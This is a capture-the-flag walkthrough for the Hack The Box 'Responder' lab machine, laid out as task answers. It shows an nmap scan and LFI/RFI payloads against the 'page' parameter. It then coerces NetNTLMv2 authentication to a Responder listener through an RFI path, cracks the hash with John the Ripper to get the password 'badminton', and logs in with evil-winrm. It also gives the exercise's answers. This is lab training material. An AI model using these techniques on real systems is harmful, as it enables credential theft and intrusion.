 
Youtube Walkthrough 

    https://www.youtube.com/watch?v=R8GOLiKIA1k

nmap -p- --min-rate 1000 -sV IP Address

-p- : This flag scans for all TCP ports ranging from 0-65535

-sV : Attempts to determine the version of the service running on a port

--min-rate : This is used to specify the minimum number of packets Nmap should send per
second; it speeds up the scan as the number goes higher



TASK 1

When visiting the web service using the IP address, what is the domain that we are being redirected to?


    Open browser
        Type http://IP Address

## Answer: Unika.htb


# Error

    Web browser is not showing...

    Name-Based Virtual hosting is a method for hosting multiple domain names (with separate handling of
    each name) on a single server. This allows one server to share its resources, such as memory and processor
    cycles, without requiring all the services to be used by the same hostname.
    The web server checks the domain name provided in the Host header field of the HTTP request and sends
    a response according to that.
    The /etc/hosts file is used to resolve a hostname into an IP address & thus we will need to add an entry in
    the /etc/hosts file for this domain to enable the browser to resolve the address for unika.htb .
    Entry in the /etc/hosts file :

    Command: 
        echo "IP Address unika.htb" | sudo tee -a /etc/hosts

    Adding this entry in the /etc/hosts file will enable the browser to resolve the hostname unika.htb to
    the corresponding IP address & thus make the browser include the HTTP header Host: unika.htb in
    every HTTP request that the browser sends to this IP address, which will make the server respond with the
    webpage for unika.htb.

TASK 2

Which scripting language is being used on the server to generate webpages?


![Alt text](<Screenshot 2023-07-27 at 9.34.40 PM.png>)



## Answer: php

        What is PHP?
        
        PHP (Hypertext Preprocessor) is a widely-used, open-source server-side scripting language designed primarily for web development. It is especially well-suited for creating dynamic and interactive web pages. PHP scripts are executed on the server-side, meaning the PHP code is processed on the web server before the resulting HTML is sent to the user's browser, allowing for dynamic content generation.

TASK 3

What is the name of the URL parameter which is used to load different language versions of the webpage?

    Refer to image above.

## Answer: page

TASK 4

Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

    File Inclusion Wordlist: https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

            List includes 

## Answer: ../../../../../../../../windows/system32/drivers/etc/hosts

TASK 5

Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

The answer is in the question. 


## Answer: //10.10.14.6/somefile


TASK 6

What does NTLM stand for?

Google search what NTLM.

## New Techonolgy Lan Manager


TASK 7

Which flag do we use in the Responder utility to specify the network interface?


Go into your terminal and type "responder -h" to pull up help screen for responder.

## Answer: -I

TASK 8

There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.


## Answer: John The Ripper


TASK 9

What is the password for the administrator user?

Open Repsonder

    Type in terminal 

            responder -I Tun0

                This will set responder to listen
                Find IP address and type in the browser

            http://unika.htb/index.php?page=//10.10.14.8//somefile

                Responder will then provide a hash
                Copy from administrator to end of hash

        In terminal type
            
            subl hash 
                        this creates a doc for the hash
                        Paste the hash into the Doc 
                        save file onto desktop 
                        run John the ripper

            john --wordlist=/usr/share/wordlist/rockyou.txt hash

                        If you recieve an error saying file or directory ot found ensure you saved the hash to your desktop

## Answer: badminton


TASK 10

We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

## Answer: 5985

SUBMIT FLAG

    Run evil-winrm in Terminal 

            evil-winrm -h

            evil-winrm -i (IP Address) -u Administrator -p badminton

    now you should have access to the windows system, 
    now search for root flag using cd to change directories and ls to list the files and folders
    Happy Hacking!




Submit root flag

Look into Mike Folder when you gain access.